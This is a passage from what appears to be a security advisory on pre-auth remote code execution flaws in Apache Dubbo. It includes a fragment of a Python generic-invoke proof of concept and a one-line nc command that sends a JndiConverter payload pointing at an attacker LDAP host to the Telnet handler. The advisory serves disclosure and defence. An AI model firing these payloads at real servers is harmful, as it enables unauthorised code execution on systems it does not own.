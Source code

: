   <span class="k">return</span> <span class="n">client</span><span class="p">.</span><span class="n">send_request_and_return_response</span><span class="p">(</span>
      <span class="n">service_name</span><span class="o">=</span><span class="s">"org.apache.dubbo.samples.basic.api.DemoService"</span><span class="p">,</span>
      <span class="n">method_name</span><span class="o">=</span><span class="s">'$invoke'</span><span class="p">,</span>
      <span class="n">param_types</span><span class="o">=</span><span class="s">"Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;"</span><span class="p">,</span>
      <span class="n">service_version</span><span class="o">=</span><span class="s">""</span><span class="p">,</span>
      <span class="n">args</span><span class="o">=</span><span class="p">[</span><span class="s">"sayHello"</span><span class="p">,</span> <span class="p">[</span><span class="s">"java.lang.String"</span><span class="p">],</span> <span class="p">[</span><span class="n">beanDescriptor</span><span class="p">]],</span>
      <span class="n">attachment</span><span class="o">=</span><span class="p">{</span><span class="s">"generic"</span><span class="p">:</span><span class="s">"bean"</span><span class="p">})</span>
</code></pre></div></div>

<h4 id="impact-4">Impact</h4>
<p>This issue may lead to <code class="language-plaintext highlighter-rouge">pre-auth RCE</code></p>

<h3 id="issue-6-pre-auth-rce-via-arbitrary-bean-manipulation-in-the-telnet-handler-ghsl-2021-039">Issue 6: Pre-auth RCE via arbitrary bean manipulation in the Telnet handler (GHSL-2021-039)</h3>
<p>The Dubbo main service port can also be used to access a <a href="https://dubbo.apache.org/en/docs/v2.7/dev/impls/telnet-handler/">Telnet Handler</a> which offers some basic methods to collect information about the providers and methods exposed by the service and it can even allow to <strong>shutdown</strong> the service. This endpoint is unprotected.</p>

<p>Additionally a provider method can be invoked using the <a href="https://github.com/apache/dubbo/blob/master/dubbo-plugin/dubbo-qos/src/main/java/org/apache/dubbo/qos/legacy/InvokeTelnetHandler.java"><code class="language-plaintext highlighter-rouge">invoke</code> handler</a>. This handler uses a <strong>safe</strong> version of FastJson to <a href="https://github.com/apache/dubbo/blob/master/dubbo-plugin/dubbo-qos/src/main/java/org/apache/dubbo/qos/legacy/InvokeTelnetHandler.java#L81">process the call arguments</a>. However, the resulting list is later <a href="https://github.com/apache/dubbo/blob/master/dubbo-plugin/dubbo-qos/src/main/java/org/apache/dubbo/qos/legacy/InvokeTelnetHandler.java#L126">processed with <code class="language-plaintext highlighter-rouge">PojoUtils.realize</code></a> which as we saw above can be used to instantiate arbitrary classes and invoke its setters. Even though FastJson is properly protected with a default blocklist, <code class="language-plaintext highlighter-rouge">PojoUtils.realize</code> is not and an attacker can leverage that to achieve remote code execution:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>echo "invoke org.apache.dubbo.samples.basic.api.DemoService.sayHello({'class':'org.apache.xbean.propertyeditor.JndiConverter','asText': 'ldap://attacker/foo'})" | nc -i 1 dubbo_server 20880
</code></pre></div></div>

<h4 id="impact-5">Impact</h4>
<p>This issue may lead to <code class="language-plaintext highlighter-rouge">pre-auth RCE</code></p>

<h3 id="issue-7-rce-on-customers-via-tag-route-poisoning-unsafe-yaml-unmarshaling-ghsl-2021-040">Issue 7: RCE on customers via Tag route poisoning (Unsafe YAML unmarshaling) (GHSL-2021-040)</h3>
<p>Apache Dubbo support <a href="https://dubbo.apache.org/en/docs/v2.7/user/examples/routing-rule/#tag-routing-rules">Tag routing</a> which will enable a customer to route the request to the right server. These rules are loaded into the configuration center (eg: Zookeeper, Nacos, …) and retrieved by the customers when making a request in order to find the right endpoint.</p>
